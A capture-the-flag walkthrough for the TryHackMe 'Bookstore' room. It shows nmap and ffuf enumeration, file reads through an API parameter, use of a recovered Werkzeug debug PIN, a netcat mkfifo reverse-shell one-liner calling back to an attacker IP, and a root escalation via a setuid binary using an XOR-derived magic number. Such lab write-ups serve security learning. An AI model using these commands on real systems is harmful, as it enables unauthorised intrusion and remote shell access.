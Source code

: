 ```yaml
---
title: "Bookstore"
date: 2025-05-23
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```



## Enumeration

```php
nmap -sVC 10.10.130.198 -oA nmap/nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-23 14:08 +0545
Nmap scan report for 10.10.130.198 (10.10.130.198)
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.72 seconds
```

So we have three ports open.
Port 22,80 and 5000.
Lets first see the port 80.
![](Pasted%20image%2020250523141205.png)

Hmm lets see the source and do directory busting.
![](Pasted%20image%2020250523141355.png)

Hmm it might be useful.
Lets also see directory busting result.
![](Pasted%20image%2020250523141259.png)

So there is login page.
![](Pasted%20image%2020250523141518.png)

Simple creds like `admin:admin` and `admin:password` didn't worked too.
Hmm nothing interesting here.

Lets also see port 5000.
![](Pasted%20image%2020250523141720.png)

Hmmm REST API v2.0.
And we have also seen `/robots.txt` in nmap scan.
![](Pasted%20image%2020250523141818.png)
Hmm lets go on `/api`.
![](Pasted%20image%2020250523141904.png)

Hmmm interesting.
So we got `/api/v2/resources/books` and different parameter which will perform different actions like getting book from id,author,published etc. as well as different end point like 
```
/api/v2/resources/books/al
/api/v2/resources/books/random4
```

Hmm very interesting.

Going to all, we can see all books and details in json format.
![](Pasted%20image%2020250523142333.png)

As well as enumeration gave me this.
![](Pasted%20image%2020250523142641.png)

Hmm `/console`.
Lets see that too.
![](Pasted%20image%2020250523142715.png)

Hmm we can access the console where we can run python but we need a pin.

The pin example is `118-831-072` and this is very hard to bruteforce.

Now my thought is there is some vulnerability in that parameters.
![](Pasted%20image%2020250523143156.png)

Hmmm and another thing is the api is v2.
So there might be v1 where it might be vulnerable.
Lets see.

Yeah we can do same thing with `/v1` too.
![](Pasted%20image%2020250523143512.png)

But we also need to find the vulnerability here.
Lets try fuzzing different things like the values of these parameters, another parameters, etc.

**api parameters and end points**

```
/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

After trying different fuzzing, we can see this.
```zsh
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://10.10.130.198:5000/api/v1/resources/books?FUZZ=test'
```
![](Pasted%20image%2020250523144244.png)

## Exploit

So there is a parameter named `show`.
Lets see what we got.
![](Pasted%20image%2020250523144326.png)


Hmmm we got this `werkzeug` error saying *filename is not defined.*
**Can we provide the filename in this paramater?**

Lets see.
Ohh yes.
![](Pasted%20image%2020250523144550.png)

Hmm so we need that pin or we need some cred or we need ssh key.
Lets see what can we do.

And after reading `/etc/passwd`, i tried this.
![](Pasted%20image%2020250523144733.png)

So we can go into user sid's home directory.
**Can we read id_rsa?**
Lets see.
Ohh there is no `id_rsa`.
![](Pasted%20image%2020250523144903.png)

Hmm so we need that pin somehow.
I spend some time trying to search for a file where pin might be stored and search in docs too.

link:https://werkzeug.palletsprojects.com/en/stable/debug/
![](Pasted%20image%2020250523145211.png)

Hmm so it can be set by user itself and stored in environment variable.
I did some research on how to see environment variable.
![](Pasted%20image%2020250523145442.png)
But didn't succeed.
And i stared to enumerate other files if they have any creds and i came to `.bash_history` file of user sid.
And got this.
![](Pasted%20image%2020250523145701.png)
Hmm.
We found the pin.
He had set the PIN environment variable himself.

Lets use that pin to get debug page.
And we can access the debug page.
![](Pasted%20image%2020250523145957.png)

## Foothold

Now lets get reverse shell by this.
```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.6.50.101 9999 >/tmp/f")
```

We will get the shell as user sid.
As well as in the sid's home directory, we can see this.
![](Pasted%20image%2020250523160735.png)

## Privilege Escalation

A binary with setuid of the root.
I transfered it in my local machine and decompiled it.
I am weak at reversing and analysing decompiled binary so i gave it to the deepseek and i understand little.

So what the binary does is, it ask the user for a *magic number*.
![](Pasted%20image%2020250523161134.png)

And it compares it to another specific value(lets call that a) but it doesn't simply compare.
It first xor out input with another values and compares the final value with that 'a'.
So we need to pass that value which will lastly result in that 'a'. If this happens it will run `/bin/bash -p` giving us root.

So for that we can use the characteristics of xor.
I tried explaining it well but i think i couldn't i guess.
Here is the code.
```python
local_18 = 0x5db3      # 0x5db3 = 23987
xor_const1 = 0x1116    # 0x1116 = 4374
target = 0x5dcd21f4    # 0x5dcd21f4 = 1573253620

magic_number = target ^ local_18 ^ xor_const1

print(f"Magic number (decimal): {magic_number}")
print(f"Magic number (hex): {hex(magic_number)}")
```

So in short,
there is a,b,c,d.
we know the value of b,c,d and we need to find the value of a.
For that we can use xor cause to compare our input number to target, there is a use of xor.
So at last the a would be this.
`a = b^c^d`
And a would be the magic number.
![](Pasted%20image%2020250523162844.png)

And by putting this value we can get root.

## Done

And done.
![](Pasted%20image%2020250523160516.png)


Lots of thing learned like API, little bit reversing and many more.
